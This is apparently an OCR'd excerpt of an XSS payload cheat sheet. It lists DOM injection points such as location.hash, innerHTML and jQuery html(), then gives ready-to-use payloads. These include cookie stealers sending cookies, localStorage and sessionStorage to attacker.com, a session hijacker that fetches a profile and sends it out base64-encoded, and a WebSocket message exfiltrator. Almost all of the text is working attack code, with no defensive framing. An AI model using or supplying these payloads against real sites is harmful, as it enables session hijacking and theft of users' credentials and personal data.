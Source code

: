 Payload is executed through client-side JavaScript manipulation:

```javascript
# URL Fragment Exploitation
#<img src=x onerror=alert(1)>    # Targeting location.hash
?search=<img src=x onerror=alert(1)>  # Targeting location.search

# DOM Manipulation
document.write('... USER_INPUT ...')  # document.write injection
element.innerHTML = '... USER_INPUT ...'  # innerHTML injection
$("#element").html('... USER_INPUT ...')  # jQuery html() injection
```

### Advanced XSS Payloads

#### Cookie Theft

```javascript
# Basic Cookie Stealer
<script>
fetch('https://attacker.com/steal?cookie='+document.cookie);
</script>

# Advanced Cookie Stealer
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://attacker.com/logger', true);
xhr.send(JSON.stringify({
    'url': window.location.href,
    'cookies': document.cookie,
    'localStorage': localStorage,
    'sessionStorage': sessionStorage
}));
</script>
```

#### Session Hijacking

```javascript
# Session Hijacker
<script>
fetch('/api/user/profile')
  .then(r=>r.json())
  .then(data=>fetch('https://attacker.com/logger?data='+btoa(JSON.stringify(data))));
</script>

# WebSocket Hijacker
<script>
var ws = new WebSocket('wss://target.com/ws');
ws.onmessage = function(e) {
  fetch('https://attacker.com/ws-log?data='+btoa(e.data));
};
</script>
```
